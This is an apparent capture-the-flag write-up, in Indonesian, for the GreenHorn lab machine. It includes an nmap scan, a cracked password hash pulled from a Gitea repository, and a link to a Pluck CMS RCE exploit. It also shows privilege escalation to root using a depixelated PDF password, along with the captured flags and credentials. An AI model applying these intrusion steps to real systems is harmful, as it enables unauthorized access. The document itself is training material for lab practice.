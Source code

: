 # Nmap Scan Report

**Host:** 10.10.11.25

**Scan Date:** 2024-07-22 17:33 WIB

**Nmap Version:** 7.94SVN (https://nmap.org)

**Host Status:** Up (0.81s latency)

## Open Ports:

### 22/tcp
- **State:** open
- **Service:** ssh
- **Version:** OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
- **SSH Host Key:**
  - 256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
  - 256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)

### 80/tcp
- **State:** open
- **Service:** http
- **Version:** nginx 1.18.0 (Ubuntu)
- **HTTP Title:** Did not follow redirect to [http://greenhorn.htb/](http://greenhorn.htb/)
- **HTTP Server Header:** nginx/1.18.0 (Ubuntu)

### 3000/tcp
- **State:** open
- **Service:** unknown (possibly Gitea)
- **Fingerprint Strings:**
  - **GenericLines, Help, RTSPRequest:**
    ```
    HTTP/1.1 400 Bad Request
    Content-Type: text/plain; charset=utf-8
    Connection: close
    Request
    400 Bad Request
    ```
  - **GetRequest:**
    ```
    HTTP/1.0 200 OK
    Cache-Control: max-age=0, private, must-revalidate, no-transform
    Content-Type: text/html; charset=utf-8
    Set-Cookie: i_like_gitea=e573dc086ea82f55; Path=/; HttpOnly; SameSite=Lax
    Set-Cookie: _csrf=n3Z58w0NLf9tFwBMM38pqhOHcvI6MTcyMTY0NDQ1MDUxMjgzMzI1NA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
    X-Frame-Options: SAMEORIGIN
    Date: Mon, 22 Jul 2024 10:34:10 GMT
    <!DOCTYPE html>
    <html lang="en-US" class="theme-auto">
    <head>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>GreenHorn</title>
    <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifV19
    ```
  - **HTTPOptions:**
    ```
    HTTP/1.0 405 Method Not Allowed
    Allow: HEAD, GET
    Cache-Control: max-age=0, private, must-revalidate, no-transform
    Set-Cookie: i_like_gitea=e95abb8a10f9e03c; Path=/; HttpOnly; SameSite=Lax
    Set-Cookie: _csrf=BC3X-6hdUE9xETB0xbmlyKutP046MTcyMTY0NDQ1OTcyMzI2MTc4NQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
    X-Frame-Options: SAMEORIGIN
    Date: Mon, 22 Jul 2024 10:34:19 GMT
    Content-Length: 0
    ```

**Service Info:** OS: Linux; CPE: cpe:/o:linux:linux_kernel

**Service Detection Performed:** Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/)

**Scan Duration:** 236.30 seconds


# USER FLAG

1. pertama bukak ke port :3000 itu nanti ada repository gitea untuk website utama nya
2. masuk ke data -> settings -> pass.php
3. `d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`: iloveyou1
4. login password nya ke halaman /login.php

ada cme dengan nama **Pluck v4.7.18**

link exploit: https://github.com/1mirabbas/Pluck_Cms_4.7.18_RCE_Exploit

setelah di exploit masuk ke user junior

```bash
(remote) www-data@greenhorn:/home/junior$ su junior
Password: iloveyou1
junior@greenhorn:~$ cat user.txt
c9f844418470110a3291a11d8f99faa3
junior@greenhorn:~$ 
```


# ROOT FLAG

enum menggunakan linpeas.sh tidak ada hasil

curiga dengan file pdf di home nya mari kita coba download

1. pakai server php 
```php
php -S 0.0.0.0:4445
```
2. http://10.10.11.25:4445/Using%20OpenVAS.pdf
3. setelah download pakai pdfimage buat convert
4. pakai defix tool

```bash
(remote) www-data@greenhorn:/$ su root
Password: 
root@greenhorn:/# cd /root
root@greenhorn:~# ls -al
total 44
drwx------  5 root root 4096 Jul 22 15:05 .
drwxr-xr-x 20 root root 4096 Jun 20 07:06 ..
lrwxrwxrwx  1 root root    9 Jun 11 14:42 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jun 20 06:36 .cache
-rwxr-xr-x  1 root root  250 Jun 19 17:06 cleanup.sh
drwxr-xr-x  3 root root 4096 Jun 20 06:36 .local
lrwxrwxrwx  1 root root    9 Jun 20 05:44 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rwxr-xr-x  1 root root  962 Jul 18 13:01 restart.sh
-rw-r-----  1 root root   33 Jul 22 15:05 root.txt
-rw-r--r--  1 root root   66 Jul 18 12:59 .selected_editor
drwx------  2 root root 4096 Jun 20 06:36 .ssh
root@greenhorn:~# cat root.txt
d40a28c54c400640620ab4675b8fc2e6
```

password: sidefromsidetheothersidesidefromsidetheotherside